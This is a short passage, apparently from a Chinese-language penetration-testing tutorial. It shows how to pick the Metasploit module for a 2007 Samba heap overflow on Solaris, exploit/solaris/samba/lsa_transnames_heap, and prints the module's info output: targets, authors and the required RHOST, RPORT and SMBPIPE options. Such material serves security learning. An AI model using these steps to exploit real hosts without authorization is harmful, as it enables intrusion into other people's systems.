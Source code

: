 ![](CVE.png)

![](moudles.png)

### 攻击漏洞
```bash
# 选择最后一个攻击模块
 use exploit/solaris/samba/lsa_transnames_heap

 # info查看模块信息
 msf exploit(solaris/samba/lsa_transnames_heap) > info
# 输出
       Name: Samba lsa_io_trans_names Heap Overflow
     Module: exploit/solaris/samba/lsa_transnames_heap
   Platform: Solaris
       Arch:
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Average
  Disclosed: 2007-05-14

Provided by:
  Ramon de C Valle <rcvalle@metasploit.com>
  Adriano Lima <adriano@risesecurity.org>
  hdm <x@hdm.io>

Available targets:
  Id  Name
  --  ----
  0   Solaris 8/9/10 x86 Samba 3.0.21-3.0.24
  1   Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24
  2   DEBUG

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  RHOST                     yes       The target address
  RPORT    445              yes       The SMB service port (TCP)
  SMBPIPE  LSARPC           yes       The pipe name to use
```